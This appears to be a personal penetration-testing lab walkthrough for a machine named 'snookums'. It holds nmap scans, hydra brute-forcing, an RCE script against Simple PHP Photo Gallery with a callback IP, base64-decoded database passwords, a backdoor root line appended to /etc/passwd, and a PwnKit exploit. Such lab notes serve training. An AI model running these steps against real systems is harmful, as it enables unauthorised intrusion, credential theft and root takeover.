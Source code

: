### Enumeration
```
IP=192.168.214.58
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,22,80,111,139,445,3306 -A $IP
```
### Ports 
- 21
	- vsftpd 3.0.2
- 22
	- OpenSSH 7.4 (protocol 2.0)
- 80
	- Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
- 111
	- RPC
- 139
	- Samba smbd 3.X - 4.X
- 445
	- Samba smbd 4.10.4
- 3306
	- MySQL (unauthorized)
### Foothold
- 21
	- ftp anonymous@$IP
		- Successful login
		- ![[Pasted image 20240708133530.png]]
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux -U $IP
		- didn't find anything
- 445
	- smbclient -N -L //$IP
		- anonymous login successful
		- shares
			- print$
			- IPC$
	- nmap --script smb-vuln* -p135,139,445 $IP
- 3306
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP`
- 80
	- ![[Pasted image 20240708133832.png]]
	- Version
		- Simple PHP Photo Gallery v0.8
			- Google
				- PHP Photo Album 0.8b - 'preview' Local File Inclusion  -  exploitdb 7786
				- 0.7 RCE
					- https://github.com/beauknowstech/SimplePHPGal-RCE.py
					- python3 SimplePHPGal-RCE.py http://$IP/ 192.168.45.195 21
					- Now we have RCE
	- Directory Brute force
		- dirsearch -u http://$IP
			- `db.php  /images  /js  /license.txt  /README.txt`
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
### PE
#### Linux
- apache
	- id
		- uid=48(apache) gid=48(apache) groups=48(apache)
	- sudo -l
		- needs password
	- uname -a
		- Linux snookums 3.10.0-1127.10.1.el7.x86_64 #1 SMP Wed Jun 3 14:28:03 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ![[Pasted image 20240708134928.png]]
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- michael
	- linpeas
		- possible exploits
			- dirtycow
			- pwnkit
		- /var/www/html/db.php
			- user: root
			- password: MalapropDoffUtilize1337
	- su root
		- MalapropDoffUtilize1337
			- failed
	- mysql -u root -p
		- MalapropDoffUtilize1337
			- Successful login
		- databases
			- simplephpgal
				- users
					- josh:VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0=
						- MobilizeHissSeedtime747
					- michael:U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==
						- `echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d`
							- `SG9ja1N5ZG5leUNlcnRpZnkxMjM=`
							- `echo 'SG9ja1N5ZG5leUNlcnRpZnkxMjM=' | base64 -d`
								- HockSydneyCertify123
								- su michael
									- HockSydneyCertify123
									- succssful
					- serena:VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==
						- OverallCrestLean000
			- information_schema
			- mysql
			- performance_schema
			- sys
- michael
	- id
		- uid=1000(michael) gid=1000(michael) groups=1000(michael)
	- sudo -l
		- can't run sudo
	- getcap -r / 2>/dev/null
		- same as www-data
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- same as www-data
	- linpeas
		- -rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
			- ![[Pasted image 20240708142210.png]]
			- `echo 'root2:$1$3.pqoypX$fqH2guM82wDYRfKgvUAcK/:0:0:root:/root:/bin/bash' >> /etc/passwd`
			- su root2
				- password
				- now we are rooted
- Alt route
	- linpeas
		- Sudo version 1.8.23
			- CVE-2021-4034
			- https://github.com/joeammond/CVE-2021-4034
			- move CVE-2021-4034.py to targer
			- python CVE-2021-4034.py
			- rooted
			- ![[Pasted image 20240708143006.png]]
### Credentials
- michael:HockSydneyCertify123
- serena:OverallCrestLean000
- josh:MobilizeHissSeedtime747
### Lessons Learned
